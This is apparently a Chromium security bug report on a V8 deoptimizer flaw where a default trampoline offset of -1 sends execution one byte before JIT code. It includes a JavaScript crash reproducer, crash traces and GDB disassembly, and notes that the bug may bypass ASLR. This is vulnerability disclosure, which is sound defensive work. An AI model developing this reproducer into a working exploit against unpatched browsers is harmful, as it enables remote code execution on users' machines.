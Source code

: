 <b>VULNERABILITY DETAILS</b>
In v8, it is possible to enter a state where there is an inconsistency with code being marked for deoptimization. For a debug build, this results in a DCHECK failure like
# Fatal error in ../../../src/deoptimizer/deoptimizer.cc, line 278
# Debug check failed: code == topmost_ implies safe_to_deopt_.


In a normal release build (without DCHECK), the bug is much worse: the calculation performed in the surrounding code in deoptimizer calculates a new pc value to use to jump to the deoptimized code. An offset value (trampoline_pc) is fetched, but in this erroneous state, the offset is still the default value of -1.
( see https://source.chromium.org/chromium/chromium/src/+/master:v8/src/deoptimizer/deoptimizer.cc;l=268
and 
https://source.chromium.org/chromium/chromium/src/+/master:v8/src/codegen/safepoint-table.h;l=24
)

This results in setting pc to one byte before the start of the jitted code.
Depending on the exact instructions used, and the data in the region immediately before the jitted code, this can lead to code execution, with no need to worry about ASLR (as v8 adjusts the pc relative to the existing code buffer), or any fancy pointer signing stuff.

The simplest patch would maybe be a check that safepoint.has_deoptimization_index() or that trampoline_pc is non-negative, or another similar check like maybe code.CanDeoptAt(it.frame()->pc()) to guard the deoptimization path.


<b>VERSION</b>
Chrome Version: master
[ looks like the bug was introduced in https://chromium.googlesource.com/v8/v8/+/a447a44f31fc153590598698d33d6efd73334be4 
so v8 >= 8.3.42 ]
Operating System: all

<b>REPRODUCTION CASE</b>
for (let i = 0; i < 3; i++) {
    for (let j = 0; j < 32767; j++) {
        Number;
    }
    for (let j = 0; j < 2335; j++) {
        Number;
    }
    var arr = [, ...(new Int16Array(0xffff)), 4294967296];
    arr.concat(Number, arr)
}
eval(``);

(also attached)

<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: v8
Crash State: 

For a debug build:

$ v8/v8/src/out/debug/d8 poc_minimized.js


#
# Fatal error in ../../../src/deoptimizer/deoptimizer.cc, line 278
# Debug check failed: code == topmost_ implies safe_to_deopt_.
#
#
#
#FailureMessage Object: 0x7ffee9a61060
==== C stack trace ===============================

    v8/v8/src/out/debug/d8(v8::base::debug::StackTrace::StackTrace()+0x22) [0x556ec3dfe8f2]
    v8/v8/src/out/debug/d8(+0xbd9ed7) [0x556ec3df9ed7]
    v8/v8/src/out/debug/d8(V8_Fatal(char const*, int, char const*, ...)+0x16e) [0x556ec3dec57e]
    v8/v8/src/out/debug/d8(+0xbcbd55) [0x556ec3debd55]
    v8/v8/src/out/debug/d8(+0xfb4a6b) [0x556ec41d4a6b]
    v8/v8/src/out/debug/d8(v8::internal::Deoptimizer::DeoptimizeMarkedCodeForContext(v8::internal::NativeContext)+0xb7e) [0x556ec41d3d0e]
    v8/v8/src/out/debug/d8(v8::internal::Deoptimizer::DeoptimizeMarkedCode(v8::internal::Isolate*)+0x256) [0x556ec41d5756]
    v8/v8/src/out/debug/d8(v8::internal::DependentCode::DeoptimizeDependentCodeGroup(v8::internal::DependentCode::DependencyGroup)+0x84) [0x556ec478b464]
    v8/v8/src/out/debug/d8(bool v8::internal::AllocationSite::DigestTransitionFeedback<(v8::internal::AllocationSiteUpdateMode)0>(v8::internal::Handle<v8::internal::AllocationSite>, v8::internal::ElementsKind)+0xb2d) [0x556ec4a338ad]
    v8/v8/src/out/debug/d8(bool v8::internal::JSObject::UpdateAllocationSite<(v8::internal::AllocationSiteUpdateMode)0>(v8::internal::Handle<v8::internal::JSObject>, v8::internal::ElementsKind)+0x59c) [0x556ec4a32bac]
    v8/v8/src/out/debug/d8(+0x160dcfe) [0x556ec482dcfe]
    v8/v8/src/out/debug/d8(+0x16062e5) [0x556ec48262e5]
    v8/v8/src/out/debug/d8(v8::internal::JSObject::AddDataElement(v8::internal::Handle<v8::internal::JSObject>, unsigned int, v8::internal::Handle<v8::internal::Object>, v8::internal::PropertyAttributes)+0xb76) [0x556ec4a882e6]
    v8/v8/src/out/debug/d8(v8::internal::Object::AddDataProperty(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::internal::PropertyAttributes, v8::Maybe<v8::internal::ShouldThrow>, v8::internal::StoreOrigin)+0xd4b) [0x556ec4bd58cb]
    v8/v8/src/out/debug/d8(v8::internal::JSObject::DefineOwnPropertyIgnoreAttributes(v8::internal::LookupIterator*, v8::internal::Handle<v8::internal::Object>, v8::internal::PropertyAttributes, v8::Maybe<v8::internal::ShouldThrow>, v8::internal::JSObject::AccessorInfoHandling)+0x2c0) [0x556ec4a4be00]
    v8/v8/src/out/debug/d8(+0x17cb302) [0x556ec49eb302]
    v8/v8/src/out/debug/d8(+0x17d964e) [0x556ec49f964e]
    v8/v8/src/out/debug/d8(+0x30405ff) [0x556ec62605ff]
Received signal 4 ILL_ILLOPN 556ec3df6226
Illegal instruction



For a non-debug build:
v8/v8/src/out/normal/d8 poc_minimized.js
Received signal 11 SEGV_MAPERR 55e0e44fd079

==== C stack trace ===============================

 [0x55e0e19c2b57]
 [0x7f267b267980]
 [0x2da90008731f]
[end of stack trace]
Segmentation fault


And in GDB:
Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
0x000009a80008731f in ?? ()
(gdb) x/5i $pc
=> 0x9a80008731f:	add    %cl,0x349d059(%rbx)
   0x9a800087325:	(bad)  
   0x9a800087327:	rex.XB (bad) 
   0x9a800087329:	add    %esi,0x49(%rbp,%rcx,1)
   0x9a80008732d:	mov    $0x5678ab80,%edx
(gdb) p/x $rbx
$3 = 0x555555fae020
(gdb) p/x $rbx + 0x349d059
$5 = 0x55555944b079
(gdb) x/5i $pc+1
   0x9a800087320:	mov    -0x30(%rcx),%ebx
   0x9a800087323:	add    %r13,%rbx
   0x9a800087326:	testb  $0x1,0x7(%rbx)
   0x9a80008732a:	je     0x9a800087339
   0x9a80008732c:	movabs $0x55555678ab80,%r10
(gdb) 



<b>CREDIT INFORMATION</b>
Reporter credit: Tyler Nighswander (@tylerni7) of Theori

